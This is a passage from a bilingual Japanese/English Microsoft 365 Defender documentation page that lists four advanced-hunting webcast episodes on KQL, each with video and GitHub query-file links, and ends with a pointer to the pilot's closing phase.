   <span data-ttu-id="1d201-367">このページから検出ルールを選択すると、詳細ページが開きます。</span><span class="sxs-lookup"><span data-stu-id="1d201-367">From this page, you can select the detection rule, which will open a details page.</span></span>

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a><span data-ttu-id="1d201-369">その他の高度な狩猟ウォークスルー演習</span><span class="sxs-lookup"><span data-stu-id="1d201-369">Additional advanced hunting walk-through exercises</span></span>

<span data-ttu-id="1d201-370">高度な検索の詳細については、次の Web キャストで、Microsoft 365 Defender 内の高度な検索機能について説明し、クロスピラー クエリを作成し、エンティティにピボットし、カスタム検出と修復アクションを作成します。</span><span class="sxs-lookup"><span data-stu-id="1d201-370">To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft 365 Defender to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.</span></span>

> [!NOTE]
> <span data-ttu-id="1d201-371">パイロット テスト ラボ環境でGitHubクエリを実行するには、独自のアカウントを使用して準備してください。</span><span class="sxs-lookup"><span data-stu-id="1d201-371">Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.</span></span>

|<span data-ttu-id="1d201-372">Title</span><span class="sxs-lookup"><span data-stu-id="1d201-372">Title</span></span>|<span data-ttu-id="1d201-373">説明</span><span class="sxs-lookup"><span data-stu-id="1d201-373">Description</span></span>|<span data-ttu-id="1d201-374">MP4 をダウンロードする</span><span class="sxs-lookup"><span data-stu-id="1d201-374">Download MP4</span></span>|<span data-ttu-id="1d201-375">YouTube で視聴する</span><span class="sxs-lookup"><span data-stu-id="1d201-375">Watch on YouTube</span></span>|<span data-ttu-id="1d201-376">使用する CSL ファイル</span><span class="sxs-lookup"><span data-stu-id="1d201-376">CSL file to use</span></span>|
|---|---|---|---|---|
|<span data-ttu-id="1d201-377">エピソード 1: KQL の基本</span><span class="sxs-lookup"><span data-stu-id="1d201-377">Episode 1: KQL fundamentals</span></span>|<span data-ttu-id="1d201-378">高度な狩猟機能の基本について説明します。Microsoft 365 Defender。</span><span class="sxs-lookup"><span data-stu-id="1d201-378">We'll cover the basics of advanced hunting capabilities in Microsoft 365 Defender.</span></span> <span data-ttu-id="1d201-379">使用可能な高度な検索データと基本的な KQL 構文と演算子について説明します。</span><span class="sxs-lookup"><span data-stu-id="1d201-379">Learn about available advanced hunting data and basic KQL syntax and operators.</span></span>|[<span data-ttu-id="1d201-380">MP4</span><span class="sxs-lookup"><span data-stu-id="1d201-380">MP4</span></span>](https://aka.ms/MTP15JUL20_MP4)|[<span data-ttu-id="1d201-381">YouTube</span><span class="sxs-lookup"><span data-stu-id="1d201-381">YouTube</span></span>](https://youtu.be/0D9TkGjeJwM)|[<span data-ttu-id="1d201-382">エピソード 1: Git の CSL ファイル</span><span class="sxs-lookup"><span data-stu-id="1d201-382">Episode 1: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|<span data-ttu-id="1d201-383">エピソード 2: 参加</span><span class="sxs-lookup"><span data-stu-id="1d201-383">Episode 2: Joins</span></span>|<span data-ttu-id="1d201-384">高度な検索のデータと、テーブルを一緒に結合する方法について引き続き学習します。</span><span class="sxs-lookup"><span data-stu-id="1d201-384">We'll continue learning about data in advanced hunting and how to join tables together.</span></span> <span data-ttu-id="1d201-385">内部、外側、一意、および半結合、および既定の Kusto innerunique 結合のニュアンスについて説明します。</span><span class="sxs-lookup"><span data-stu-id="1d201-385">Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.</span></span>|[<span data-ttu-id="1d201-386">MP4</span><span class="sxs-lookup"><span data-stu-id="1d201-386">MP4</span></span>](https://aka.ms/MTP22JUL20_MP4)|[<span data-ttu-id="1d201-387">YouTube</span><span class="sxs-lookup"><span data-stu-id="1d201-387">YouTube</span></span>](https://youtu.be/LMrO6K5TWOU)|[<span data-ttu-id="1d201-388">エピソード 2: Git の CSL ファイル</span><span class="sxs-lookup"><span data-stu-id="1d201-388">Episode 2: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|<span data-ttu-id="1d201-389">エピソード 3: データの要約、ピボット、および視覚化</span><span class="sxs-lookup"><span data-stu-id="1d201-389">Episode 3: Summarizing, pivoting, and visualizing data</span></span>|<span data-ttu-id="1d201-390">データのフィルター処理、操作、結合ができたので、データの要約、定量化、ピボット、視覚化を開始します。</span><span class="sxs-lookup"><span data-stu-id="1d201-390">Now that we're able to filter, manipulate, and join data, it's time to start summarizing, quantifying, pivoting, and visualizing.</span></span> <span data-ttu-id="1d201-391">このエピソードでは、要約演算子と、高度な狩猟スキーマの追加テーブルに飛び込む間に実行できる計算の一部について説明します。</span><span class="sxs-lookup"><span data-stu-id="1d201-391">In this episode, we'll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema.</span></span> <span data-ttu-id="1d201-392">分析の改善に役立つグラフにデータセットを変換します。</span><span class="sxs-lookup"><span data-stu-id="1d201-392">We turn our datasets into charts that can help improve analysis.</span></span>|[<span data-ttu-id="1d201-393">MP4</span><span class="sxs-lookup"><span data-stu-id="1d201-393">MP4</span></span>](https://aka.ms/MTP29JUL20_MP4)|[<span data-ttu-id="1d201-394">YouTube</span><span class="sxs-lookup"><span data-stu-id="1d201-394">YouTube</span></span>](https://youtu.be/UKnk9U1NH6Y)|[<span data-ttu-id="1d201-395">エピソード 3: Git の CSL ファイル</span><span class="sxs-lookup"><span data-stu-id="1d201-395">Episode 3: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|<span data-ttu-id="1d201-396">エピソード 4: ハントしましょう!</span><span class="sxs-lookup"><span data-stu-id="1d201-396">Episode 4: Let's hunt!</span></span> <span data-ttu-id="1d201-397">インシデント追跡への KQL の適用</span><span class="sxs-lookup"><span data-stu-id="1d201-397">Applying KQL to incident tracking</span></span>|<span data-ttu-id="1d201-398">攻撃者のアクティビティを追跡する時間!</span><span class="sxs-lookup"><span data-stu-id="1d201-398">Time to track some attacker activity!</span></span> <span data-ttu-id="1d201-399">このエピソードでは、攻撃を追跡するために、KQL と高度なMicrosoft 365 Defenderを使用します。</span><span class="sxs-lookup"><span data-stu-id="1d201-399">In this episode, we'll use our improved understanding of KQL and advanced hunting in Microsoft 365 Defender to track an attack.</span></span> <span data-ttu-id="1d201-400">サイバーセキュリティの ABC やインシデント対応に適用する方法など、攻撃者のアクティビティを追跡するためにフィールドで使用されるヒントとコツについて説明します。</span><span class="sxs-lookup"><span data-stu-id="1d201-400">Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.</span></span>|[<span data-ttu-id="1d201-401">MP4</span><span class="sxs-lookup"><span data-stu-id="1d201-401">MP4</span></span>](https://aka.ms/MTP5AUG20_MP4)|[<span data-ttu-id="1d201-402">YouTube</span><span class="sxs-lookup"><span data-stu-id="1d201-402">YouTube</span></span>](https://youtu.be/2EUxOc_LNd8)|[<span data-ttu-id="1d201-403">エピソード 4: Git の CSL ファイル</span><span class="sxs-lookup"><span data-stu-id="1d201-403">Episode 4: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a><span data-ttu-id="1d201-404">次の手順</span><span class="sxs-lookup"><span data-stu-id="1d201-404">Next step</span></span>

|<span data-ttu-id="1d201-405"></span><span class="sxs-lookup"><span data-stu-id="1d201-405"></span></span> <br>[<span data-ttu-id="1d201-406">閉じると概要のフェーズ</span><span class="sxs-lookup"><span data-stu-id="1d201-406">Closing and summary phase</span></span>](m365d-pilot-close.md)|<span data-ttu-id="1d201-407">パイロットの結果Microsoft 365 Defender分析し、関係者に提示し、次のステップに進みます。</span><span class="sxs-lookup"><span data-stu-id="1d201-407">Analyze your Microsoft 365 Defender pilot outcome, present them to your stakeholders, and take the next step.</span></span>
|:-----|:-----|
